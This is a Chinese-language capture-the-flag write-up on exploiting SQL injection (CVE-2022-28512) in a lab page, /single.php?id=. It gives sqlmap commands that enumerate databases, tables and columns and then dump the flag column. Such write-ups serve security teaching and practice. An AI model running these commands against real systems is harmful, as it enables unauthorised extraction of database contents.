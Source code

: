 # SQL注入漏洞利用分析报告 (CVE-2022-28512)

## 漏洞发现过程

1. **目标页面访问**  
   通过访问目标网站页面，根据题目可知/single.php`存在SQL注入漏洞。  
   ![页面截图](./images/1.png)

2. **错误信息分析**  
   直接访问`/single.php`时返回PHP报错，提示缺少`id`参数。  
   ![错误截图](./images/2.png)

3. **参数测试**  
   通过GET方式传入参数`id=1`后，页面正常显示：  
   `http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1`  
   ![正常页面截图](./images/3.png)

## SQL注入利用步骤

### 1. 数据库枚举
使用sqlmap工具枚举数据库：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent --dbs
```

![数据库枚举结果](./images/4.png)

### 2. 表枚举
针对`ctf`数据库进行表枚举：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent -D "ctf" --tables
```
![表枚举结果](./images/5.png)

### 3. 列枚举
枚举`flag`表的列：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent -D "ctf" -T "flag" --columns
```
![列枚举结果](./images/6.png)

### 4. 数据提取
提取`flag`列的数据：
```bash
python sqlmap.py -u "http://eci-2zeedg8aj1e1e5442eth.cloudeci1.ichunqiu.com/single.php?id=1" --batch --random-agent -D "ctf" -T "flag" -C "flag" --dump
```
![数据提取结果](./images/7.png)

